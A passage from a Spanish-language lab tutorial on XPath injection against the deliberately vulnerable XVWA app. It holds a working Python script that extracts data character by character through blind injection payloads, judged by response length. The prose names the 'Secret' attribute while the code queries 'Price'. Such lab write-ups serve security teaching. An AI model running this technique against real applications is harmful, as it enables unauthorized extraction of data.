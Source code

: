 ![[XPATH 17.png]]

De esta manera podemos modificar nuestro código para **obtener el contenido completo** del atributo *Secret*.

```python
#!/usr/bin/python3

from pwn import *

import requests
import time
import sys
import pdb
import string
import signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://192.168.0.139/xvwa/vulnerabilities/xpath/"
characters = string.printable 
characters_no = characters.replace("'", "")

def xPathInjection():

    data = ''
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Inciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")
    for position in range(1, 50):
        for character in characters_no:

                post_data = {
                    'search': "1' and substring(Price,%d,1)='%s" % (position, character),
                    'submit': ''
                }

                r = requests.post(main_url, data=post_data)

                if len(r.text) != 8676 and len(r.text) != 8675:
                            data += character
                            p2.status(data)
                            break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)
            
if __name__ == '__main__':

    xPathInjection()
```

De esta forma ya tendríamos todo el contenido del archivo *coffee.xml* gracias a la **Inyección XPATH**.